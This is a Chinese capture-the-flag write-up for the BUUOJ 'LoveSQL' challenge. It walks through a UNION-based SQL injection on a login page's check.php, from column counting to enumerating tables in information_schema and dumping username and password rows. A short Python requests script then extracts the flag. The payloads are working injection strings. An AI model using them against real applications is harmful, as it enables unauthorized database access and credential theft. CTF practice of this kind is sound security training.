

# 分析

来自[[极客大挑战 2019]LoveSQL](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]LoveSQL)，sql注入

查看源码无发现，根据提示使用万能密码，结果


```bash
密码:b0dafbb1333bee53b28325ebe59336c5  #发现md5解密无结果
```

尝试继续判断回显位，4字段显错

```
/check.php?username=admin%27+order+by+3%23&password=1
/check.php?username=admin%27+order+by+4%23&password=1
```


确定回显位置

```
/check.php?username=-1%27+union+select+1%2C2%2C3%23&password=1
```


爆出数据名

```
/check.php?username=-1%27+union+select+1%2Cdatabase%28%29%2Cversion%28%29%23&password=1
```


爆表名

```
/check.php?username=-1'+union+select+1,2,group_concat(table_name)+from+information_schema.tables+where+table_schema%3d'geek'%23&password=root
```


爆列名

```
/check.php?username=-1'+union+select+1,2,group_concat(column_name)+from+information_schema.columns+where+table_name%3d'geekuser'%23&password=123
/check.php?username=-1'+union+select+1,2,group_concat(column_name)+from+information_schema.columns+where+table_name%3d'l0ve1ysq1'%23&password=123
```


爆数据

```
/check.php?username=-1'+union+select+1,2,group_concat(id,username,password)+from+geekuser%23&password=123
/check.php?username=-1'+union+select+1,2,group_concat(id,username,password)+from+l0ve1ysq1%23&password=123
```



# exp

```python
import requests
import re
url = "http://8e47428c-7efa-408f-b847-c6dd0fa77eb2.node5.buuoj.cn:81/check.php"
kw={
    "username":"-1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1#",
    "password":"123"
}
res = requests.get(url, params=kw)
if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", res_text)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag found -->>{flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

